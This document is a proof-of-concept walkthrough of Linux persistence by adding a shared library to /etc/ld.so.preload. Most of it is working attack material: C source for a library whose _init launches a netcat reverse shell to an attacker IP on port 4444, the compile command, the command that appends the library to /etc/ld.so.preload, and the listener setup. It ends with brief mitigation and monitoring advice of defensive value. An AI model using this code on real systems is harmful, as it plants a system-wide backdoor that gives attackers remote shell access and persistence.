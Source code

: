 # Library Injection via ld.so.preload File 
A technique that uses /etc/ld.so.preload to inject custom libraries for code execution and persistence
### Description
This technique exploits the /etc/ld.so.preload file on Linux systems to achieve system-wide persistence by injecting a shared library that loads with every dynamically linked process. By adding a custom library path to /etc/ld.so.preload, attackers can execute arbitrary code whenever any new process is started. This technique leverages the dynamic linker (ld.so) to preload a specified library before standard libraries, making it effective for both privilege escalation and stealth operations.

When an application starts, the dynamic linker checks /etc/ld.so.preload and loads any libraries listed there, enabling custom code to run with the privileges of the calling process. Because /etc/ld.so.preload applies system-wide and requires root permissions to modify, it is often used by attackers with escalated privileges to maintain control over a compromised system. This can be leveraged to execute logging, monitoring, or malicious activities silently across reboots and user sessions.

## Detailed PoC (Proof of Concept)
Let's walk through the detailed steps of exploiting this technique. I'll break it down into phases: preparation, library creation, injection into /etc/ld.so.preload, and execution.

### Step 1: Understanding the Exploit
Objective: Gain persistence on a Linux system by injecting a malicious shared library through the /etc/ld.so.preload mechanism.
Mechanism: The dynamic linker (ld.so) checks the /etc/ld.so.preload file on system startup and loads any libraries listed there before loading the standard libraries. If an attacker can modify this file, they can insert a malicious library that runs arbitrary code when any process starts.
Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.

Code for a Malicious Shared Library (example: reverse shell):

c
Copy
Edit
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}
Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
bash
Copy
Edit
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

bash
Copy
Edit
echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:

bash
Copy
Edit
ls
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:

bash
Copy
Edit
nc -lvp 4444
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:

sed -i '/reverse_shell.so/d' /etc/ld.so.preload
Delete the malicious shared library:

rm /path/to/reverse_shell.so
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

